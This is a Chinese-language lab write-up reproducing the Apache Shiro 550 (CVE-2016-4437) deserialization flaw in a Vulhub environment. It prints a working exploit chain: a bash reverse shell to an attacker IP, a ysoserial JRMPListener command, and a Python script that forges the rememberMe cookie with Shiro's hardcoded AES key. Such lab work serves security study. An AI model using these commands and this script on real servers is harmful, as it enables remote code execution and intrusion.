


# Shiro 550-721 反序列化漏洞复现

`Shiro`是`Apache`的一个强大且易用的`Java`安全框架,用于执行身份验证、授权、密码和会话管理。使用 `Shiro` 易于理解的 `API`，可以快速轻松地对应用程序进行保护

## Shiro 550

> CVE-2016-4437 `Shiro`版本≤`1.2.24`
> 

### 漏洞原理

在`Apache shiro`的框架中，执行身份验证时提供了一个记住密码的功能（`RememberMe`），如果用户登录时勾选了这个选项。用户的请求数据包中将会在`cookie`字段多出一段数据，这一段数据包含了用户的身份信息，且是经过加密的。

加密过程：**用户信息=>序列化=>AES加密（这一步需要用密钥`key`）=>base64编码=>添加到`RememberMe Cookie`字段**

勾选记住密码之后，下次登录时，服务端会根据客户端请求包中的cookie值进行身份验证，无需登录即可访问。

那么服务端对Cookie的验证过程就是：**取出请求包中`rememberMe`的`cookie`值 => Base64解码=>AES解密（用到密钥`key`）=>反序列化**

就在这里出现了问题，`AES`加密过程中使用的密钥`key` （对称机密算法），但是在`Shiro`版本≤`1.2.24`中使用了固定的加密密钥**`kPH+bIxk5D2deZiIxcaaaA==`** ，这样就可以利用这个密钥实现上述加密过程，在`Cookie`字段中写入服务端执行恶意代码，最后在服务端对`Cookie`解密时（反序列化后）就会执行恶意代码。

（图片和文字来源：https://blog.csdn.net/Bossfrank/article/details/130173880）



### 漏洞验证

验证漏洞的汇总：

> https://blog.csdn.net/dreamthe/article/details/124390531 ：
> 
> 1. 未登录的情况下，请求包的`cookie`中没有`rememberMe`字段，返回包`set-Cookie`里也没有`deleteMe`字段
> 2. 登录失败的话，不管有没有勾选`RememberMe`字段，返回包都会有 `rememberMe=deleteMe`字段
> 3. 不勾选`RememberMe`，登录成功的话，返回包`set-Cookie`里有`rememberMe=deleteMe`字段。但是之后的所有请求中`Cookie`都不会有`RememberMe`字段
> 4. 勾选`RememberMe`，登录成功的话，返回包`set-Cookie`里有`rememberMe`=deleteMe字段，还会有`remember`字段，之后的所有请求中`Cookie`都会有`rememberMe`字段
> 5. 或者可以在`cookie`后面自己加一个`rememberMe=1`,看返回包有没有`rememberMe= deleteMe`

漏洞验证的核心还是在`Shiro`是否使用了固定密钥**`kPH+bIxk5D2deZiIxcaaaA==`** 或者我们可以通过脚本工具来爆破出来密钥那么`Shiro 550`才一定会存在

使用工具验证漏洞`Shiro 550` https://github.com/SummerSec/ShiroAttack2



也可以使用脚本来爆破 https://github.com/Ares-X/shiro-exploit 

```bash
┌──(pycryptodome)─(root㉿kali)-[~/Desktop/Tools/shiro-exploit]
└─# python3 shiro-exploit.py check -u http://192.168.111.163:8080
Target Used Shiro,Staring butre key:
Version 1 Key Found: kPH+bIxk5D2deZiIxcaaaA==
```

### 漏洞复现 （手动）

使用`Vulhub`来搭建

`192.168.111.163:8080` （`Centos`）

`192.168.111.162` （`kali`）

进入到靶机页面：


复现之前首先验证是否使用`Shiro`，我们勾选记住我然后输入账号密码，抓包发送，然后查看返回包，能看到返回包存在`Set-Cookie: rememberMe=` 字段。这样就表示登陆页面启动呢`Shiro`来进行登陆验证。


使用工具验证后存在漏洞，就可以开始复现漏洞了

构造`Cookie`执行反弹`shell`命令

1. `kali`开启监听：`nc -lvp 6666`
2. 构造反弹`shell`命令
    
    ```bash
    bash -i >& /dev/tcp/192.168.111.162/6666 0>&1
    ```
    
    经过对特殊符号进行`base64`编码，使用https://ares-x.com/tools/runtime-exec
    
    ```bash
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMS4xNjIvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}
    ```
    
3. 使用序列化工具`ysoserial.jar` 开启反弹`shell`的服务器
    
    ```bash
    java -cp ysoserial.jar ysoserial.exploit.JRMPListener 7777 CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMS4xNjIvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}"
    ```
    
    在`kali`中最好，后面的命令就是上面经过`base64`编码特殊加密后的`payload`
    
    
    
    这条命令相当是用`ysoserial.jar` (需要`JDK9`) 工具在攻击机开启服务器在`7777`端口监听，然后在这个服务上放一个反弹`shell` 的`payload` ，并且使用`ysoserial` 指定`CommonsCollections5`（vulbhub存在对`CommonsCollections` 的依赖） 利用链生成可执行的`bash -i >& /dev/tcp/192.168.111.162/6666 0>&1` ，有客户端请求时就将`payload` 返回
    
4. 生成`AES`加密的`base64`编码后的`remember`字段
    
    里边的参数以自己的为准，比如`popen` 里边执行的`java` 的路径，以及`key`值
    
    ```python
    # python2 脚本 shiro.py
    import sys
    import uuid
    import base64
    import subprocess
    from Crypto.Cipher import AES
    def encode_rememberme(command):
        popen = subprocess.Popen(['/usr/local/jdk-9.0.4/bin/java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
        BS = AES.block_size
        pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
        key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
        iv = uuid.uuid4().bytes
        encryptor = AES.new(key, AES.MODE_CBC, iv)
        file_body = pad(popen.stdout.read())
        base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
        return base64_ciphertext
     
    if __name__ == '__main__':
        payload = encode_rememberme(sys.argv[1])   
    print "rememberMe={0}".format(payload.decode())
    ```
    
    执行命令，生成请求包里面的`rememberMe`
    
    ```python
    (pycryptodome)  ⚡ root@kali  ~/Desktop/Tools/ShiroExploit.V2.51  python shiro.py 192.168.111.162:7777
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    rememberMe=u4bJ0F/sQ/yViG6BGXsIqXRNDTM4d0CYAqpYyfLdmyj3qz68sYcIuXHaXIPmt5XLV34dSzGw0uOEjckRUZ9ZuuoUGonNPkrBjdaCH6Zeh2Gm3633P9ZepD6N6MhRZ0zMoNwMVPJQ5ETAK8i3IJ03FsnUrlHCb4xIA3PcOs74LygOOmEeqriRSxhhObqTpQZS3sFYFJ2i3duOvCHCtjmsRyxFq1TSYCftosDMAOxmBl0izbbjTN2XcCxBJtMGyJxEmRoB/93g+WADXPOB2541PQ31Zud+bLyHpTesprrjszfRLikkqiiWeaV2woyadviqN76uF+oAI37TJDbVmEn5M4l4JcYEAPYnVVKVekPj/H5mhl+Rnjaq2xIj82QSO3bE773Fhy+LXOivwcsgl3LMKQ==
    ```
    
    
    
5. 修改请求包里面的**`cookie`**的`rememberMe`字段
    
    
    
    查看响应包里面的`rememberMe`字段，应该是成功了
    
    
    
6. 我们再看一下`ysoserial.jar` 监听的端口
    
    能看见服务器`192.168.111.163`（靶机）和其发起了通信
    
    
    
7. 最后再看`kali`的监听的`6666`端口，成功获得`shell`
    
    
    

### 分析攻击过程

来自：https://blog.csdn.net/Bossfrank/article/details/130173880

对于攻击者而言，核心就是干了两件事：

1.搭建`VPS`进行`JRMPListener`，存放反弹`shell`的`payload1`

2.将上述`VPS`进行`JRMPListener`的地址进行了`AES`加密和`base64`编码，构造请求包`cookie`中的`rememberMe`字段，向存在漏洞的服务器发送加密编码后的结果`payload2`

那么对于靶机服务器，他是怎么沦陷的呢？

1.接收到请求包`payload2`，对他进行`base64`解码=>`AES`解密，发现要和一个`VPS`的`JRMP 7777`端口进行通信。

2.向恶意站点`VPS`的`JRMP 7777`进行请求，接收到了到了序列化后的恶意代码（反弹`shell`到攻击机的`6666`端口）`payload1`。

3.对`payload1`执行了反序列化，执行了反弹`shell`的恶意命令，就此沦陷。

### 复现漏洞（工具）


## Shiro 721